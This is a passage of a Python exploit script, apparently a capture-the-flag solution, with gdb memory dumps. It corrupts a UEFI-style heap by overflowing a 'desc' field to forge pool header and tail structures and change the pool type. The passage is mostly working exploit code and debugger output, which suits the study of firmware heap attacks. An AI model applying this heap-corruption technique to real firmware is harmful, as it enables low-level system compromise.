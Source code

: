 ```assembly
    0x2a552fb8:     0xafafafafafafafaf      0xafafafafafafafaf
    0x2a552fc8:     0xafafafafafafafaf      0xafafafaf6c617470 ptal
    0x2a552fd8:     0x0000000000000060      0xafafafafafafafaf
    0x2a552fe8:     0xafafafafafafafaf      0xafafafafafafafaf
    0x2a552ff8:     0xafafafafafafafaf      0x000000002a559a9d
    0x2a553008:     0xafafafafafafafaf      0xafafafafafafafaf
    0x2a553018:     0xafafafafafafafaf      0xafafafafafafafaf
    '''

    clear()
    edit("name", b"yama")
    edit("desc", b"aaa")

    # raw_input()
    '''
    gdb-peda$ x/90gx 0x0000000018352f18-0x10
    0x18352f08:     0x0000000000000000      0x0000000000000060 desc
    0x18352f18:     0xafafafaf00616161      0xafafafafafafafaf
    0x18352f28:     0xafafafafafafafaf      0xafafafafafafafaf
    0x18352f38:     0xafafafafafafafaf      0xafafafafafafafaf
    0x18352f48:     0xafafafafafafafaf      0xafafafaf6c617470 ptal
    0x18352f58:     0x0000000000000060      0xafafafafafafafaf
    0x18352f68:     0xafafafafafafafaf      0xafafafafafafafaf
    0x18352f78:     0xafafafafafafafaf      0x0000000030646870 phd0
    0x18352f88:     0x0000000000000000      0x0000000000000040
    0x18352f98:     0xafafaf00616d6179      0xafafafafafafafaf yama
    0x18352fa8:     0xafafafafafafafaf      0xafafafaf6c617470
    0x18352fb8:     0x0000000000000040      0xafafafafafafafaf
    0x18352fc8:     0xafafafafafafafaf      0xafafafafafafafaf
    0x18352fd8:     0xafafafafafafafaf      0xafafafafafafafaf
    0x18352fe8:     0xafafafafafafafaf      0xafafafafafafafaf
    0x18352ff8:     0xafafafafafafafaf      0x0000000018359a9d
    0x18353008:     0xafafafafafafafaf      0xafafafafafafafaf
    0x18353018:     0xafafafafafafafaf      0xafafafafafafafaf
    '''
    
    
    # modify POOL_HEAD.Type
    # part3
    part3 = b""
    part3 += p64(0x40)[0:7]  # POOL_HEAD.Size
    edit("desc", b"\xaf"*(0x7f-len(part3))+part3)
    # part2
    part2 = b""
    part2 += b"\xaf"*0x20  # pad
    part2 += p32(0x30646870)  # POOL_HEAD.Signature
    part2 += b"\xaf\xaf\xaf\xaf"  # POOL_HEAD.Reserved
    part2 += p8(10)  # POOL_HEAD.Type (EfiACPIMemoryNVS)
    # write 0xaf
    for i in range(6, -1, -1):
        tmp = part2+b"\xaf"*i
        edit("desc", b"\xaf"*(0x7f-len(part3)-len(part2)-7)+tmp)
    # part1
    part1 = b""
    part1 = part1.ljust(0x38, b"\xaf")
    part1 += b"ptal"  # POOL_TAIL.Signature
    part1 += b"\xaf"*4  # POOL_TAIL.Reserved
    part1 += p8(0x60)  # POOL_TAIL.Size
    for i in range(6, -1, -1):
        tmp = part1+b"\xaf"*i
        edit("desc", b"\xaf"*(0x7f-len(part3)-len(part2)-7-len(part1)-7)+tmp)
    # Put 'name' into other free list
    clear()
```